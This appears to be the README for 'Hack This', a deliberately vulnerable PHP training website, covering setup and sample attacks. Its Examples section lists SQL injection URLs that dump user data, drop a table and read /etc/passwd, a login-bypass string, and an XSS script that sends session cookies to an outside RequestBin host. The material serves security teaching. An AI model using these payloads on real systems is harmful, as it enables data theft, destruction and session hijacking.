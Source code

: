 # Hack This
A collection of common web programming mistakes.

![Screenshot](screenshot_small.png)

This website, when set up and configured, contains a number of vulnerabilities that can be exploited, including:

* SQL Injection
* XSS (Cross-Site Scripting)
* Session Hijacking

## Prerequisites
You'll need to have a web server installed and configured with PHP for this to work. I really recommend [XAMPP](https://www.apachefriends.org/), especially for Windows users. Once you've done that you can proceed.

You'll also need [Node.js](https://nodejs.org/en/) and [npm](https://www.npmjs.com/) installed and working.

## Building
Clone the project down and open the folder in your favourite editor. It's a JetBrains PhpStorm project but you can use whichever paid/free software takes your fancy.

First, install the npm packages necessary to build and run the website. Run the following in your terminal in the project root directory:

```
npm install
```

This will install [Bower](https://bower.io/) which will allow you to install the assets the website requires (Bootstrap, jQuery etc.) using the command:

```
bower install
```

Gulp will also have been installed. This will compile the [Less](http://lesscss.org/) and [CoffeeScript](http://coffeescript.org/) into CSS and JS ready for production. Do this using the command:

```
gulp
```

This command will need running again every time you make a change to a Less file. If you're working on them, run `gulp watch` in a terminal to watch for file changes and compile accordingly.

## Setup
To set everything up, you'll need to: 

* Import the file `db.sql` into your database
* Modify the file `db_configuration.php` to correspond to your database
* Access the site and get hacking

## Examples
Examples of vulnerabilities in this web application include:

### SQL Injection
In an SQL injection attack, malicious SQL statements are inserted into an entry field for execution (usually in a data-driven web application). 

* Get information for all users: 
    - `http://localhost/customers.php?username=leocadio'%20or%20'1'='1`
    - `http://localhost/customers.php?username=leocadio'%20or%20''='`
    - `http://localhost/customers.php?id=1%20or%201=1`
* Drop (destroy) invoices table: 
    - `http://localhost/customers.php?id=1;drop%20table%20invoices`
* Dump the password hash file from the server: 
    - Unix: `http://localhost/customers.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1`
* Dump several things at once (oh boy): 
    - `http://localhost/customers.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world`

### Bypass Login (SQL Injection)
It's possible to bypass login completely (logging in as whoever you like) by adding an always-true condition to the password check:

```
foo' or '1'='1
```

### Session Hijacking (XSS)
Using a service like [RequestBin](https://requestb.in/) it's possible to hijack user sessions by capturing their session cookie. Try sending a message to a user consisting of the following code (with `{{ bin_id }}` substituted out for your RequestBin bin ID).

```html
<script>
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", "https://requestb.in/{{ bin_id }}?c=" + document.cookie, false);
    xmlHttp.send(null);
</script>
```

## Warnings
This site is intentionally left vulnerable to common exploits. Don't host it on the same server as any production sites, only ever deploy it on a machine that you wouldn't mind bricking (I recommend a disposable VM).

## Acknowledgements
This is heavily based on the [php-sploits](https://github.com/jadz/php-sploits) repository by [Jared Mooring](https://github.com/jadz) and [Allan Shone](https://github.com/CerealBoy). Find the slides for their [SydPHP](https://github.com/sydphp) talk [here](http://www.slideshare.net/CerealBoy/sydphp-security).

The homepage template is a highly modified version of the [Blackrock Digital Freelancer](https://github.com/BlackrockDigital/startbootstrap-freelancer) template. Wonderful, free, MIT licensed template. Check it out if you're in the market for such a thing.
